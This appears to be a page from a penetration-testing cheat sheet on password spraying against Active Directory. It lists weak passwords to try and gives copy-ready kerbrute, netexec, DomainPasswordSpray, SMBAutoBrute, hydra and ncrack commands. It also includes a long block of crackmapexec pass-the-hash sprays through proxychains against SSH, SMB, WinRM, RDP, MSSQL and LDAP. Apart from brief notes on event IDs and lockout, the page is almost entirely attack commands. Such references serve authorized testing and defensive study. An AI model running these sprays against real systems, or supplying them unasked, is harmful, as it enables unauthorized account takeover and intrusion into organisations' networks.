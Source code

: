 # Password - Spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)
- Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)


## Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```


## Spray a pre-generated passwords list

* Using `netexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  netexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```


## Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

## Spray passwords against everything
* Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
```
echo "" >> users.txt
echo "Administrator" >> users.txt
echo "Guest" >> users.txt
echo "DefaultAccount" >> users.txt
echo "WDAGUtilityAccount" >> users.txt
proxychains4 -q ./cme ssh --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme smb --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme winrm --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme rdp --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme mssql --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme ldap --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme ssh --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme smb --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme winrm --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme rdp --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme mssql --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme ldap --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
```

## BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```
